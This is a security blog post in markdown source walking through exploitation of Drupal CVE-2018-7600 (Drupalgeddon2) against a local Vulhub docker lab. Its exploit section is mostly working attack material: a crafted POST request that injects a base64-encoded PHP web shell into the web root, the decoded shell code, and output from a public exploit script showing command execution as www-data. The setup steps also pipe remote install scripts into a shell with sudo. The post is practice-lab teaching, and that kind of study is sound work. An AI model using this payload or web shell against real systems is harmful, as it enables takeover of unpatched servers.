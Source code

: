 ```yaml
---
layout: post
title:  "Exploiting drupalgeddon2"
tagline: "A closer look at CVE-2018-7600"
description: "A closer look at CVE-2018-7600 detailing how to exploit it and how to set up a vulnerable test environment with vulhub"
tags: [notes, exploits, vulhub]
date:   2018-09-11
comments: true
image:
  feature: blog/5/feature.jpg
  hero: blog/5/header.jpg
  credit: Soumil Kumar
  creditlink: https://www.pexels.com/photo/photo-of-person-typing-on-computer-keyboard-735911/
---
```

## Summary
**On 28 March 2018** The Drupal team [announced a highly critical remote code execution vulnerability](https://www.drupal.org/sa-core-2018-002) in Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1. Although a patch for this issue has been made broadly available, there are still sites that have [not been upgraded](/reports/3/).

## Deploying a vulnerable environment
Before we dive into exploiting CVE-2018-7600, we will need a target. A quick and easy way to setup a vulnerable target to practice on is using [Vulhub](https://github.com/vulhub/vulhub), an open-source collection of pre-built vulnerable docker environments. The project is primarily is Chinese, however there is work being done by myself and others to translate the project to English.

We can [install vulhub and it's dependencies](https://github.com/vulhub/vulhub/blob/master/README.md#installation) on a debian based system (Ubuntu / Kali) by running the following

```shell_session
# Install pip
$ sudo curl -s https://bootstrap.pypa.io/get-pip.py | python3

# Install the latest version docker
$ sudo curl -s https://get.docker.com/ | sh

# Run docker service
$ sudo service docker start

# Install docker compose
$ sudo pip install docker-compose

# Download project
$ git clone https://github.com/vulhub/vulhub.git

# Enter directory
$ cd vulhub

```

Once vulhub is installed, we can go ahead and setup our Drupal 8 instance.
You can also view [the documentation for this specific environment](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2018-7600/README.md) (translated by me!).

```shell_session
# Enter the environment directory
$ cd drupal/CVE-2018-7600/

# Start the environment
$ sudo docker-compose up -d
```

With the vulnerable environment now setup and running we can visit `http://127.0.0.1:8080/` and complete the Drupal installation.

During the installation we will select the "standard" profile and "SQLite" as the database type.


![](/assets/img/blog/5/drupal-install.png)

## Exploit

To exploit this vulnerability, we will send a POST request to our target and write the following to shell.php
```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

This can be done by sending the following command to the target

```shell
echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./shell.php
```

The request will ultimately look like this

```http
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 127.0.0.1:8080
User-Agent:
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Basic
Content-Type: application/x-www-form-urlencoded
Content-Length: 245

form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./shell.php
```

Once the shell has been written we can interact with it at `http://127.0.0.1:8080/shell.php?c=id` replacing `id` with the command we wish to run.

---

Alternatively this can also be done automatically with [this exploit](https://github.com/dreadlocked/Drupalgeddon2) written by [@\_dreadlocked](https://twitter.com/_dreadlocked) and [@g0tmi1k](https://twitter.com/g0tmi1k)

```shell
$ ruby /opt/exploit-database/exploits/php/webapps/44449.rb http://127.0.0.1:8080
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://127.0.0.1:8080/
--------------------------------------------------------------------------------
[!] MISSING: http://127.0.0.1:8080/CHANGELOG.txt (404)
[+] Found  : http://127.0.0.1:8080/core/CHANGELOG.txt (200)
[+] Drupal?: 8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo JMJQYOFR
[+] Result : JMJQYOFR<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://127.0.0.1:8080/s.php' -d 'c=whoami'
41bc2a2fa908>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
41bc2a2fa908>>
```
